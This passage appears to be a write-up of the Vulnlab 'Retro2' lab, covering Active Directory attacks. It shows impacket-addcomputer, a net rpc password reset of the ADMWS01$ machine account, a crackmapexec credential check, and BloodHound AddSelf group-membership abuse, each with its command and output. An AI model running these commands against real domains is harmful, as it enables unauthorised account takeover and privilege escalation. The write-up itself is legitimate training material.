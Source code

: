 That method didn't work :

<img src="attachments/d3e1edacd75cffaf4cb3ddb8bc5009bc.png" />

Read this [Article](https://hadess.io/pwning-the-domain-dacl-abuse/#:~:text=GenericAll%2FGenericWrite%20on%20Computer,-If%20we%20have&text=since%20we%20can%20add%20a,we%20can%20perform%20RBCD%20attack.&text=attacker%20with%20this%20permission%20can,potentially%20taking%20over%20the%20machine) and tried to `Add a computer to the domain via domain credentials` :

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ impacket-addcomputer retro2.vl/FS02$ -dc-ip 10.10.69.202 -computer-name 'ADMWS01$' -computer-pass 'P@ssw0rd'    
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[-] SMB SessionError: code: 0xc000006d - STATUS_LOGON_FAILURE - The attempted logon is invalid. This is either due to a bad username or authentication information.
SMB SessionError: code: 0xc000000d - STATUS_INVALID_PARAMETER - An invalid parameter was passed to a service or function.
```

That attempt also failed. After reading a write-up, we got a hint to change the password of the existing user instead of creating a new user account.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ net rpc password 'ADMWS01$' Passw0rd1 -U retro2.vl/'fs01$'%P@ssw0rd -S bln01.retro2.vl
```

*Verifying that the changed password is working :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ crackmapexec smb retro2.vl -u 'ADMWS01$' -p 'Passw0rd1'
SMB         retro2.vl       445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         retro2.vl       445    BLN01            [+] retro2.vl\ADMWS01$:Passw0rd1
```

##### Addself Abuse

*Bloodhound :*
> The computer ADMWS01.RETRO2.VL has the ability to add itself, to the group SERVICES@RETRO2.VL. Because of security group delegation, the members of a security group have the same privileges as that group.

> By adding itself to the group, ADMWS01.RETRO2.VL will gain the same privileges that SERVICES@RETRO2.VL already has.


Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

```
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
